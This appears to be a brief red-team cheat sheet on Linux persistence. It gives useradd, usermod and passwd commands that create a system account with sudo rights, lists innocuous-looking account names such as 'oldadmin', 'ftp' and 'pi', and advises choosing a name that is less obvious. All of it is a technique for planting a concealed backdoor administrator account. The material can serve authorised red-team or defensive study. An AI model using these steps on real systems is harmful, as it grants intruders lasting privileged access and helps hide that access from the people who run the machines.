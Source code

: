 # Create User

## 01 - Unix Shell

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - User Accounts Examples

Here are the usernames that you can think of to create an account but be sure to come up your own to make it less obvious.

```
service
admin
oldadmin
linux
gnu
user
olduser
ftp
sftp
ssh
pi
p1
```

---
## References

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)
